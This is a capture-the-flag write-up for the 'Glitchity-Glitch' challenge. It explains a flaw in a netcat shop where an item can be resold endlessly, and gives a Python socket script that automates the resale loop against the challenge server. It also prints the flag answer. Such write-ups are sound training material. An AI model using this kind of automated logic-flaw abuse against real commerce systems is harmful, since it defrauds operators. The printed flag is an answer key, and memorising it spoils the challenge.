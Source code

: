 # Glitchity-Glitch

If you wanna take your mind off things, you're more than welcome to visit our shop.

nc chals20.cybercastors.com 14432

## Challenge

Connecting to the server at the specified port gives us a text base shop, where we have a balance, a list of items we can buy, and the ability to sell any items we buy for the original price.

One of the items is a flag, however, the cost of this item (6000) is far greater than the amount of money we start with.

## Solution

We need to find a way of increasing the user balance to be greater than or equal to the cost of the flag.

If try buying and selling each item, we notice that the VPN item can be bought and sold as normal, except the amount doesn't decrease when sold.
With this in mind, we can buy 1 VPN and sell it an unlimited number of times until we reach the correct balance.

Although it is theoretically possible to do this manually, the VPN costs very little in comparison to the flag, and this would require far too much time.
The process can be automated using the ```socket``` python module.

## Script

```py
#!/usr/bin/python
import socket

def netcat(hostname, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))

    hasVPN = False
    selling = False
    working = True
    done = False
    flag = ""

    while not done:
        data = s.recv(1024)
        for item in data.decode().split("\n"):
            if "Your money: " in item and not "Here's" in item:
                print(f'{item} \r', end="")
                break
        if "Your money: 6000" in data.decode():
            working = False
        if "Choice: " in data.decode():
            if not working:
                message = "5\n"
            else:
                if hasVPN and selling:
                    message = "0\n"
                    selling = False
                elif hasVPN and not selling:
                    message = "1\n"
                    selling = True
                else:
                    message = "6\n"
                    hasVPN = True
            s.sendall(message.encode())
        if "castorsCTF" in data.decode():
            print("Flag:", data.decode())
            for item in data.decode().split("\n"):
                if "castorsCTF" in item:
                    flag = item
                    break
            done = True
    print("Connection closed.")
    s.shutdown(socket.SHUT_WR)
    s.close()
    return flag

flagFileContents = netcat("chals20.cybercastors.com", 14432)

f = open("flag.txt", "w")
f.write(flagFileContents)
f.close()
```

## Flag

```castorsCTF{$imPl3_sTUph_3h?}```


